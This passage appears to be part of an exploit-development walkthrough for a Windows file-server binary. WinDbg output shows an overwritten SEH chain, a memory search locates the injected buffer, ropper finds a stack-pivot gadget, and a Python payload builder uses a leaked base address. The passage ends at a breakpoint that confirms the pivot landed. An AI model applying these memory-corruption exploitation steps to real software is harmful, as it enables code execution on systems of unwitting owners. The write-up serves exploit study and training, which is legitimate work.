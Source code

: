 ```python
```

```
0:001> !exchain
0170f6a0: 43434343 (SEH)
Invalid exception stack at 42424242 (NSEH)
```

## Warming Up

Now we have to find a single gadget that somehow gets us back to our input buffer.

```
0:001> r esp
esp=0170eab0
0:001> s -a 0 L?80000000 "AAAAAAAAAAAAAAA"
0133e66c  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
...
015205c0  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
...
0170f298  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
```

We find the start of our As is 3 times in memory. The last one looks like the most promising one because it’s somewhat close to our stack pointer:

```
0:001> ? 0170f298 - 0170eab0
Evaluate expression: 2024 = 000007e8
```

To find a gadget that can jump that far (or bit a further, it does not have to be exact) we can use ropper:

```
ropper --file rainbow2.exe --console
search add esp, %
...
0x4011139d: add esp, 0xd60; ret;
0x40111396: add esp, 0xe10; ret;
...
```

These look promising. We replace the Bs with the gadget that adds 0xe10 to esp, taking the leaked binary base into account and then run the exploit again.

```
...
buf += b"B" * 4 # nseh
buf += p32(binary_base + 0x11396)
buf += b"D" * (size-len(buf))
...
```

We set a breakpoint on the gadget and see if we can hit our buffer:

```
0:003> !exchain
0164fbd4: filesrv+11396 (3fac1396)
Invalid exception stack at 42424242
0:003> ba e1 3fac1396
0:003> g
Breakpoint 0 hit
filesrv+0x11396:
3fac1396 81c4100e0000    add     esp,0E10h
0:003> p
3fac139c c3              ret
0:003> dd esp
0164f844  41414141 41414141 41414141 4141414
```